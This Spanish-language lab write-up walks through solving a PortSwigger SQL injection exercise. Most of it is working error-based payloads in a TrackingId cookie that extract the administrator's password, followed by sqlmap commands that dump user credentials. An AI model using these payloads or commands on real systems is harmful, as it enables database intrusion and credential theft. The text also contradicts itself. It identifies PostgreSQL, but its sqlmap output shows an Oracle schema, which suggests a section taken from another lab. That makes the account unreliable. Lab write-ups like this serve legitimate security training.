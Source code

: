 ```yaml
---
title: Visible error-based SQL injection
description: Laboratorio de Portswigger sobre SQLI
date: 2025-02-09 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SQLI
tags:
  - Portswigger Labs
  - SQLI (Error Based)
  - Visible error-based SQL injection
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL`. La aplicación utiliza una `cookie` de seguimiento para análisis y `ejecuta` una `consulta SQL` que incluye el valor de la cookie enviada, los resultados de la `consulta SQL` no se devuelven. La `base` de `datos` contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el `laboratorio`, hay que `encontrar` una forma de `filtrar` la `contraseña` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI-Guide/](https://justice-reaper.github.io/posts/SQLI-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-13/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-13/image_2.png)

Si enviamos una petición normal a la web no notaremos nada extraño, sin embargo, si añadimos una `'` al en el campo `TrackingId` nos arrojará un `error`, esto quiere decir que podemos hemos logrado `interferir` en la `consulta SQL` que se está tramitando. Esto se debe a que la consulta que se está haciendo por detrás es la siguiente

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

![](/assets/img/SQLI-Lab-13/image_3.png)

Si en el campo cookie efectuamos la inyección, `' or 1=1-- - ` o `' and 1=1-- - ` el `error` ya `no aparece` debido a que `la query se está ejecutando correctamente`. Para obtener el `número de columnas existentes` usamos un `order by`, en este caso sabemos que hay una columna, debido a que si hacemos `order by 2` o superior nos arroja un error

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+order+by+1--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

`Descartamos` que se esté empleando `Oracle`, debido a que `no ha arrojado ningún error`, si fuera Oracle nos arrojaría un error debido a que haría falta añadir `from dual`

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+union+select+null--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

Si `listamos` la `versión` de la `base` de `datos` con `@@version` nos da un `error`, por lo tanto también podemos `descartar` las bases de datos `MySQL` y `Microsoft`. Al probar con `version()` nos `devuelve` un `200 OK` lo que quiere decir que no ha producido ningún error y por lo tanto, estamos ante `PostgreSQL`

```
Cookie: TrackingId='+union+select+version()--+-+; session=4t32wyejFSosLimiWeBWotzdpQskYvmg
```

He probado a verificar si había alguna diferencia entre usar `or` y `and` en consultas como `' or (select 'a')='b'-- - ` y no hay diferencia alguna. Independientemente del operador utilizado al comparar dos strings, da igual que no sean iguales, no nos arroja ningún error. Por lo tanto, no vamos a poder utilizar `substr()` o `length()` para obtener la longitud y posteriormente bruteforcear carácter por carácter. Si nos fijamos bien `ha cambiado el error que se mostraba anteriormente` al usar este `payload`

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_4.png)

Para que no se produzca el error podemos simplemente añadir 1=

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

Comprobamos que se ve reflejado en la respuesta el input introducido

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+'testing')+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_5.png)

Una vez hecho esto ya podemos ver el `output` que se produce al `listar` la `version` de al `base` de `datos` modificando el `payload` anterior

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+version())+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_6.png)

Hemos tenido que `borrar caracteres` debido a que hay un `límite máximo de caracteres`, si nos pasamos de 60 caracteres la consulta no se llevará a cabo. Por esta misma razón no podemos listar tablas ni bases de datos, la única opción para para enumerar tablas que se me ocurre es `bruteforcear` el `nombre` de las `tablas` para la `base de datos actual` mediante un `Cluster bomb` o un `script en python` y usando este `payload`. El primer `payload` serían las `letras` de la `a-z` y el segundo sería un `diccionario` con el `nombre` de `tablas`

```
Cookie: TrackingId='+and+1=cast((select+'a'+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

`Si la tabla existe nos responderá con este mensaje`, una vez encontrada una tabla existente podemos `bruteforcear` el `nombre` de las `columnas` con un `ataque` de `tipo Sniper`

![](/assets/img/SQLI-Lab-13/image_7.png)

Por el contrario `si la tabla no existe nos responderá con este otro mensaje`, de esta forma, si nos fijamos en el `Content-Length` podremos saber si existe o no

![](/assets/img/SQLI-Lab-13/image_8.png)

`Obtenemos` el `nombre` de `usuario`

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_9.png)

`Obtenemos` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId='and+1=cast((select+password+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_10.png)

También podemos `obtener` las `credenciales` usando `sqlmap`, para ello, lo primero es `listar` a los `propietarios`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch -D peter -T uers --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
available databases [7]:
[*] "SYSTEM"
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] XDB
```

`Listamos` las `tablas` del propietario `PETER`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter --tables --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
[2 tables]
+----------+
| TRACKING |
| USERS    |
+----------+
```

`Listamos` las `columnas` de la tabla `USERS`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
Table: USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | VARCHAR2 |
| PASSWORD | VARCHAR2 |
| USERNAME | VARCHAR2 |
+----------+----------+
```

`Listamos` el `contenido` de las columnas `USERNAME` y `PASSWORD` 

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users -C username,password --dump --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2     
Database: PETER
Table: USERS
[3 entries]
+---------------+----------------------+
| USERNAME      | PASSWORD             |
+---------------+----------------------+
| administrator | 865232i99b9ovbdp8kvn |
| wiener        | 6zkofcbzkuzr8zwssnb3 |
| carlos        | 6s50h6zjox61npql60g0 |
+---------------+----------------------+
```

Nos `logueamos` con las credenciales `administrador:865232i99b9ovbdp8kvn`

![](/assets/img/SQLI-Lab-13/image_11.png)

![](/assets/img/SQLI-Lab-13/image_12.png)
